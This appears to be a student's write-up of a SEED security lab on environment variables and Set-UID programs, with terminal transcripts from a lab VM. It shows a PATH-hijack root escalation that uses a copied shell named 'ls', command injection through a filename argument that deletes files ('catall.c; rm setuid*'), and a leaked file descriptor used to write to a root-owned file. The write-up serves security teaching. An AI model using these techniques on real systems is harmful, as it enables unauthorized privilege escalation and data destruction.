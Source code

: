 # Answer in my observation

## Task 2
- When comment out the `printenv()` in Line 1 and uncomment  `printenv()` in Line 2. There's nothing change.

## Task 3
- The original code does not call the `/usr/bin/env` program.
- After changing the line 1 to `execve("/usr/bin/env", argv, environ);`, the program calls the `/usr/bin/env` successfully.

## Task 6
- Because the program doesn't call the specific `ls` command, we can do like this to inject the malicious code to the system.

```console
    [03/22/24]seed@VM:~/.../Labsetup$ nano cmd.c
    [03/22/24]seed@VM:~/.../Labsetup$ gcc -o cmd cmd.c
    [03/22/24]seed@VM:~/.../Labsetup$ sudo chown root cmd
    [03/22/24]seed@VM:~/.../Labsetup$ sudo chmod 4755 cmd
    [03/22/24]seed@VM:~/.../Labsetup$ cp /bin/sh ls
    [03/22/24]seed@VM:~/.../Labsetup$ ls -l
    total 924
    -rw-rw-r-- 1 seed seed    761 Dec 27  2020 cap_leak.c
    -rw-rw-r-- 1 seed seed    471 Feb 19  2021 catall.c
    -rwsr-xr-x 1 root seed  16696 Mar 22 00:05 cmd
    -rw-rw-r-- 1 seed seed     81 Mar 22 00:04 cmd.c
    -rwxr-xr-x 1 seed seed 878288 Mar 22 00:05 ls
    -rw-rw-r-- 1 seed seed    180 Mar 21 11:53 myenv.c
    -rw-rw-r-- 1 seed seed    418 Mar 21 11:34 myprintenv.c
    -rwsr-xr-x 1 root seed  16768 Mar 21 12:27 setuid
    -rw-r--r-- 1 root root    159 Mar 21 12:26 setuid.c
    [03/22/24]seed@VM:~/.../Labsetup$ pwd
    /home/seed/Env_SetUID/Labsetup
    [03/22/24]seed@VM:~/.../Labsetup$ export PATH=/home/seed/Env_SetUID/Labsetup:$PATH
    [03/22/24]seed@VM:~/.../Labsetup$ ./cmd 
    VM# id
    uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
    VM#
```
- Explain: 
+ The programmer only uses `ls` path to execute the `ls` command instead of using `/bin/ls` path.
+ The `PATH`, which is the environment variable, has the `/usr/bin` path that has the `ls` command.
+ Therefore we can apply this vulnerability of this Set-UID program to privilege escalation, by using file `/bin/sh` and save, rename it into `ls` as executable file. Finally, adding the path that has injected the malicious code file into the beginning of `PATH` environment variable --> OS will call the path contains the malicious file first, then it sees the fake `ls` file and execute it.

## Task 8
### When using `system()`:
- Because the `system()` invoke the shell, therefore we can abuse to run more commands by using this:

```console
    [03/22/24]seed@VM:~/.../Labsetup$ ls | grep setuid
    setuid
    setuid.c
    [03/22/24]seed@VM:~/.../Labsetup$ ./catall 'catall.c; rm setuid*' 
    #include <unistd.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    int main(int argc, char *argv[])
    {
    char *v[3];
    char *command;

    if(argc < 2) {
        printf("Please type a file name.\n");
        return 1;
    }

    v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;

    command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
    sprintf(command, "%s %s", v[0], v[1]);

    // Use only one of the followings.
    system(command);
    // execve(v[0], v, NULL);

    return 0 ;
    }
    [03/22/24]seed@VM:~/.../Labsetup$ ls | grep setuid
    [03/22/24]seed@VM:~/.../Labsetup$ 
```

### When using `execve()`:
- Because `execve()` does not invoke shell, we can't abuse this to execute more commands.

```console
    [03/22/24]seed@VM:~/.../Labsetup$ ls
    cap_leak.c  cmd                ls        mylibc.o      myprog.c
    catall      cmd.c              myenv.c   myprintenv.c
    catall.c    libmylib.so.1.0.1  mylibc.c  myprog
    [03/22/24]seed@VM:~/.../Labsetup$ ./catall 'cmd.c; rm cmd*'
    /bin/cat: 'cmd.c; rm cmd*': No such file or directory
    [03/22/24]seed@VM:~/.../Labsetup$ 
```

## Task 9
- We can write to the `/etc/zzz` file by abusing the Capability Leaking, it can be seen that the file descriptor `fd` of the vulnerable program is `3`, so we will use `echo` command to redirect the message we want to send to the vulnerable program using `>&`:

```console
    root@VM:/home/seed/Env_SetUID/Labsetup# cat /etc/zzz
    Hello, this file is created by user 'root'
    root@VM:/home/seed/Env_SetUID/Labsetup# exit
    exit
    [03/22/24]seed@VM:~/.../Labsetup$ ./cap_leak 
    fd is 3
    $ id                                                                           
    uid=1000(seed) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
    $ echo 'OceanTran999' >&3                                                      
    $ cat /etc/zzz                                                                 
    Hello, this file is created by user 'root'
    OceanTran999
    $ 
```

## References:
- https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
- https://juggernaut-sec.com/capabilities/
- https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/
- https://man7.org/linux/man-pages/man7/capabilities.7.html
- https://linux-audit.com/linux-capabilities-101/
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#linux-capabilities
